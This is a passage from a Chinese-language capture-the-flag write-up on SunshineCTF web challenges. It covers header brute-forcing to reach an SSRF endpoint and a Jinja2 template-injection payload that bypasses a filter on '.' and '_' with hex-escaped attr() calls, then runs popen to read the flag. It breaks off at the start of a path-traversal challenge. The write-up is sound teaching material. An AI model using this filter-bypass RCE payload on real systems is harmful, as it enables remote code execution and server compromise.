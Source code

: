 我们要找到它要求的请求头，并将它的值设置为 true 才能去进行 SSRF 攻击。

于是，我们找了个 [header 字典](https://github.com/z1sec/Testing/blob/main/headers.txt) 开始爆破，数据包如下。

```plaintext
GET /fetch HTTP/1.1
Host: wormhole.sunshinectf.games
Connection: keep-alive
sec-ch-ua: "Chromium";v="140", "Not=A?Brand";v="24", "Google Chrome";v="140"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
{{file:line(X:\CTFTools\Software\Web\Yakit\yakit-projects\temp\tmp3842183531.txt)}}: true
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9


```

爆破结果如下，我们加上请求头 `Allow: true` 即可访问。

![](../assets/b707421a8e5e0cfe1a51759e40290ffc.png)

然后尝试访问它的内网服务，得到提示 `You're trying to access /admin but forgot the ?template= parameter`，我们测试发现它的内网服务端口是 8000，测试发现，原来是打 SSTI 注入，接下来我们调试 payload。

简单尝试发现，它 WAF 了 `.` 和 `_`，我们做出相应绕过即可，payload 如下，RCE 读 flag 即可。

```plaintext
{(()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f'))()[164]}}

{{((()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f'))()[164]|attr('\x5f\x5finit\x5f\x5f')|attr('\x5f\x5fglobals\x5f\x5f'))['popen']('cat fla*')|attr('read')()}}
```

### Lunar File Invasion

感觉应该是存在路径穿越，可能是在 `/login?next=admin%2Fhelp` 处触发。
